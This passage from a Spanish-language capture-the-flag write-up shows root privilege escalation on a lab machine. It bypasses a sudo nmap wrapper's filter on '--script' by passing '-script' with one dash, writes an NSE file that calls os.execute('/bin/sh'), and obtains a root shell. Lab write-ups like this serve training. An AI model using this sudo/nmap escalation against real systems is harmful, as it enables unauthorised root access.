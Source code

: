 ```bash
# Execute the original nmap binary with the provided arguments
exec /usr/bin/nmap.original "$@"
```

Este script cubre todas las formas de escalar privilegios con `nmap` que se contemplan en GTFOBins, pero tampoco ha pensado en todo.

Efectivamente nos restringe el parámetro `--script`.
```console
zabbix@unrested:/home$ sudo /usr/bin/nmap --script
Script mode is disabled for security reasons.
```

Pero hay otra forma de establecer el parámetro de `script` en `nmap`, y es utilizando simplemente un guion en vez de dos.
```console
zabbix@unrested:/home$ sudo /usr/bin/nmap -script
/usr/bin/nmap.original: option '-script' requires an argument
See the output of nmap -h for a summary of options.
```

Supongo que el creador, a la hora de hacer la máquina se metió a GTFOBins y filtró todos los parámetros que salían, pero bueno, por esto es bueno tener secretos a veces.

Entonces ahora, creamos el script malicioso para escalar privilegios.

```console
zabbix@unrested:/home$ TF=$(mktemp)
zabbix@unrested:/home$ echo 'os.execute("/bin/sh")' > $TF
```

Ahora lo ejecutamos con `nmap`
```console
zabbix@unrested:/home$ sudo /usr/bin/nmap -script=$TF
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-06 17:34 UTC
NSE: Warning: Loading '/tmp/tmp.awY041aB8j' -- the recommended file extension is '.nse'.
# uid=0(root) gid=0(root) groups=0(root)
```

Podemos leer las flags de `matthew` y de `root`
```console
root@unrested:/home/matthew# cat user.txt
a0c7fd4d78e1...
root@unrested:/home/matthew# cat /root/root.txt
3f592d616fec...
```

¡Y ya estaría!

# Intended Privilege Escalation (Abusing `--datadir` parameter)
La forma intencionada para escalar privilegios en esta máquina, es utilizar el parámetro `--datadir` que permite especificar donde se encuentran los scripts de `nmap`, que tiene sentido, ya que en principio no se nos deja ejecutar un script en especifico, pero se nos deja utilizar el parámetro `-sCV` que recordemos que ejecuta una serie de scripts de reconocimiento entonces si pudiéramos reemplazar alguno de estos scripts por uno personalizado malicioso, podríamos ejecutar un comando a nivel de sistema.
